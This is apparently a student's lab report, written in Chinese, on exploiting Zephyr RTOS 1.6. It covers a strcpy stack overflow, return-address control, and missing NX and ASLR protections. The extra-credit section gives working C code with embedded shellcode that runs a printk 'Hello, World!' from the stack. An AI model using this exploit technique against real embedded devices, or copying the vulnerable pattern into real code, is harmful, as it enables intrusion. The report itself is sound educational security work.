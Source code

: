 # part1
`注①：lab环境中的zephyr版本是1.6，报告和最新版有差距的地方，暂以课程环境中为准(即不特别说明和课件环境冲突的新改动)`  
`注②：第二部分的Extra是借用同学的*inx主力设备完成的，感谢ntdgy同学。`

## 1. Read the lab instructions above and finish all the tasks.

首先配置环境并编译HelloWorld：  
![图 2](images/69b33dd93cbdceb0ca2e2faabad158ff62181e8ffb69dd5810b2a0b3fb938d2d.png)  

然后用长字符串+strcpy造成bof：  
![图 3](images/a0bb49a2caed2cfca3987dbf2abedd44a1060297898698e91b35185df7022e09.png)  

换成AAAA，ra变成激动人心的41414141：  
![图 4](images/6dc4a6af8ee01fddec1b724305a564d50d7ad3375b20b186bf99a73d235d50f7.png)  

## 2. Answer the questions in the Introduction section, and justify your answers. Simple yes or no answer will not get any credits.
- a. What security features does Zephyr have?
  首先看看zephyr编译出二进制的保护情况：  
  ![图 6](images/93dd2cb80193cdff55f6323eb374383ead87307a9ebcc7b88a69df38facd5d1f.png)    
  一片大红，可见没有任何现代保护措施，**简直就是裸奔** （这句话不是我说的，是教授说的）  
  再看看官方文档怎么说 https://docs.zephyrproject.org/latest/security/security-overview.html  
  看起来官方声称自己实现了部分如对金丝雀的支持，更多在说其对密码学和可信环境的兼容性（但听起来像画饼）

- b. Do applications share the same address space with the OS kernel?  
参考文档的描述 https://github.com/zephyrproject-rtos/zephyr/blob/main/doc/introduction/index.rst  
![图 1](images/ef7ccadab980bcdcce5f554bce94604e49256bc8d6378dd1896881823285297d.png)   
可见用户程序和内核共享地址空间。  

- c. Does Zephyr have defense mechanisms such as non-executable stack or Address Space Layout Randomization (ASLR)?  
  请参考问题a的回答。  
  + NX: 没有，参考Extra部分，可以执行shellcode
  + ASLR: 没有，如下图，运行两次程序，栈上数据地址不变  
  
  ![图 2](images/643098472e364cfe1be2d6c9173cd97e8a4a734be753b340609c55b747e7b53f.png)  
  ![图 3](images/4905ff06503ffc0083c458ecdd9a2cd8fae46eb6a8b8fc15b8770e0e8aa7f05d.png)  
  （ASLR负责随机化堆栈基址，而PIE配合ASLR随机化text段、data段和bss段地址，所以可以通过观测是堆栈地址是否变化判断ASLR是否开启，而观测全局变量（如字符串）地址则不行，因为demo的编译选项关闭了PIE）  
  更有趣的是似乎zephyr本身不支持PIE，如下图   
  ![图 4](images/3e82dfd00430f4259e235b1f5365567c8c68b68df0ef921a62792568b651cf23.png)  
  当传递`-fpie`时，会发现zephyr内核的代码因为某些内联汇编无法编译为PIE。

- d. Do textbook attacks (e.g., buffer overflow or heap spray) work on Zephyr?  
  答案是肯定的，我们上述的报告中完成了bufferoverflow。  
  另外由于堆栈可执行，堆喷射也是有效的。  
  参考Extra部分，显然能想到的二进制利用方法都是有效的。

## 3. Change the EIP register to the value 0xdeadbeef, and show me the screenshot of the EIP value when the application crashes.
偏移0x10，根据要求将ra改成0xdeadbeef：  
![图 5](images/1643392cdab9ee29c99b8f33691faa8cee972284f02d8525e0f1dac102bac4c2.png)  

## Extra Credit (10pt): Execute shell code on the stack. The shell code could be launching a shell or print a hello string


我编写了一个打印`"Hello, World!"`的shelllcode：
```
0x0101740       'AAAAAAAAAABBBB' ; buffer 10 byte, ebp 4 byte
0x010174E       0x52
0x010174F       0x17
0x0101750       0x10
0x0101751       0x00  ; 这里把ra覆盖成下一行（0x101752)
0x0101752       mov     ebp, esp
0x0101754       sub     esp, 10h
0x0101757       lea     eax, [ebp-10h]
0x010175A       mov     [ebp-10h], 'lleH'
0x0101761       push    eax
0x0101762       mov     [ebp-0Ch], 'W ,o'
0x0101769       mov     [ebp-8], 'dlro'
0x0101770       mov     [ebp-4], '!'
0x0101777       call    printk
```
编写思路：  

字符串放栈上并通过esp拿到准确的栈地址(其实没必要)，然后ret2kernel(printk)。  

弹shell也是可以的，zephyr可以支持一个简单的shell，但需要满足：
- 样例代码中需要有地方调用了shell（因为编译选项是O2）
- 配置中开启对shell的支持，我们的环境中应该还没有开启

否则就需要写一个巨大的shellcode直接把shell的静态代码放进去，但这并无必要，因为成功执行任意一段sc都足以证明可以执行任意静态代码。  

遇到的坑：  
zephyr本身不支持x86|i686标准的write系统调用(其实是我试过的所有syscall都不支持)，所以需要通过call printk完成输出。  

碎碎念：  

快速测试shellcode的方法：
```c
((void(*)(void))code)();
```

`printk`不是唯一的方法，比如在zephyr的编译选项中开启对CONSOLE输出的支持后可以使用<stdio.h>中的`printf`来输出。  

但似乎无论那种配置，zephyr本身都不支持syscall，而是通过自己实现的printf/kprintf调用自己实现的单个char io，唤起中断完成的。  
所以复用kernel里已有的代码是一个不错的选择。 

另外可能需要说明的是，`main.o`只是链接前的文件，最终运行的是`zephyr.elf`，所以call偏移的计算需要使用zephyr中的地址。  

以及因为strcpy遇到`\x00`会截断，所以需要ret到的是字符串而不是buff。  
又因为strcpy可以补遇到的第一个`\x00`，所以地址最高位的0是可以写入的，能完成ret2shellcode。  

我的代码： 
```c
#include <zephyr.h>
#include <misc/printk.h>
#include <string.h>

void overflow(char* str){
	char buff[10];
	strcpy(buff, str);
}


void main(void){
	char* str="AAAAAAAAAABBBB\x52\x17\x10\x00\x89\xE5\x83\xEC\x10\x8D\x45\xF0\xC7\x45\xF0\x48\x65\x6C\x6C\x50\xC7\x45\xF4\x6F\x2C\x20\x57\xC7\x45\xF8\x6F\x72\x6C\x64\xC7\x45\xFC\x21\x00\x00\x00\xE8\xC2\xF2\xFF\xFF";
	overflow(str);
}
```

全lab默认配置编译运行，成功输出了Hello World：
![图 1](images/74e261a062c77916ead1580dc7e2a8c0fe3c9ebc632cdae4197a261ceae34025.png)  
 